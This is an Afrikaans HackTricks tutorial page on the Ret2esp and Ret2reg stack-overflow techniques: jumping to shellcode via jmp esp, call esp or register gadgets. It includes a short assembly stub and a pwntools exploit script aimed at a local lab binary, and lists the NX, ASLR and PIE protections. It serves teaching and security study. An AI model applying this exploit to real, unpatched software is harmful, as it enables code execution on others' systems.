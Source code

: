 # Ret2esp / Ret2reg

{{#include ../../../banners/hacktricks-training.md}}

## **Ret2esp**

**Omdat die ESP (Stack Pointer) altyd na die bokant van die stapel wys**, behels hierdie tegniek die vervanging van die EIP (Instruction Pointer) met die adres van 'n **`jmp esp`** of **`call esp`** instruksie. Deur dit te doen, word die shellcode reg na die oorgeskryfde EIP geplaas. Wanneer die `ret` instruksie uitgevoer word, wys ESP na die volgende adres, presies waar die shellcode gestoor is.

As **Address Space Layout Randomization (ASLR)** nie geaktiveer is in Windows of Linux nie, is dit moontlik om `jmp esp` of `call esp` instruksies in gedeelde biblioteke te gebruik. egter, met [**ASLR**](../common-binary-protections-and-bypasses/aslr/) aktief, mag 'n mens binne die kwesbare program self moet kyk vir hierdie instruksies (en jy mag nodig hê om [**PIE**](../common-binary-protections-and-bypasses/pie/) te oorwin).

Boonop, om die shellcode **na die EIP-korrupsie** te plaas, eerder as in die middel van die stapel, verseker dat enige `push` of `pop` instruksies wat tydens die funksie se werking uitgevoer word, nie met die shellcode inmeng nie. Hierdie inmenging kan gebeur as die shellcode in die middel van die funksie se stapel geplaas word.

### Gebrek aan spasie

As jy spasie ontbreek om te skryf na die oorgeskryfde RIP (miskien net 'n paar bytes), skryf 'n aanvanklike `jmp` shellcode soos:
```armasm
sub rsp, 0x30
jmp rsp
```
En skryf die shellcode vroeg in die stapel.

### Voorbeeld

Jy kan 'n voorbeeld van hierdie tegniek vind in [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) met 'n finale eksploit soos:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
## Ret2reg

Op soortgelyke wyse, as ons weet dat 'n funksie die adres teruggee waar die shellcode gestoor is, kan ons **`call eax`** of **`jmp eax`** instruksies benut (bekend as **ret2eax** tegniek), wat 'n ander metode bied om ons shellcode uit te voer. Net soos eax, kan **enige ander register** wat 'n interessante adres bevat, gebruik word (**ret2reg**).

### Voorbeeld

Jy kan 'n voorbeeld hier vind: [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)

## Beskermings

- [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): As die stap nie uitvoerbaar is nie, sal dit nie help nie, aangesien ons die shellcode in die stap moet plaas en spring om dit uit te voer.
- [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Hierdie kan dit moeiliker maak om 'n instruksie te vind om na esp of enige ander register te spring.

## Verwysings

- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{{#include ../../../banners/hacktricks-training.md}}
